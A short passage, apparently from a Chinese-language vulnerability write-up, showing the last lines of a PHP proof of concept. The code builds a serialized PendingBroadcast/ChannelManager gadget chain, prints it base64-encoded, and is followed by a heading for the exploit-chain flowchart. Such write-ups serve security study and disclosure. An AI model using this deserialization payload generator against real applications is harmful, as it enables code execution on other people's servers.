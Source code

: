 ```php
        public function __construct()
        {
            $this->events = new ChannelManager();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```

<img src="./images/poc-3-3.png" alt="">

### POC链利用流程图
